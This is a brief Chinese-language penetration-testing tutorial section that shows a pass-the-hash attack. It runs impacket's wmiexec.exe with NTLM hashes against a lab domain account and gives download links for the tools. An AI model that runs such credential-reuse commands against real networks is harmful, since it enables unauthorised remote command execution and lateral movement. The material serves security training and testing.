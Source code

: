 # 4.2.4.2 impacket-examples-windows

> 原文：[https://www.zhihuifly.com/t/topic/3430](https://www.zhihuifly.com/t/topic/3430)

#### 4.2.4.2 impacket-examples-windows

impacket-examples-windows 是 impacket(网络协议工具包)的 windows 版本，包含 了几十款工具，这里使用 wmiexec.exe 来演示 pth 攻击。

```
wmiexec.exe -hashes b084e803561e306bff17365faf1ffe89:db23832fd3822fcaea5c019f090fe752 ADTEST/jeff1@192.168.19.14 "whoami" 
```

![image](img/d8a9c0c484497a3903a6056c673fc296.png)

![image](img/33b64b4643887b91c860ca00bbee6f86.png)

下载地址:

> impacket-examples-windows:

https://github.com/maaaaz/impacket-examples-windows/releases

> impacket:

https://github.com/SecureAuthCorp/impacket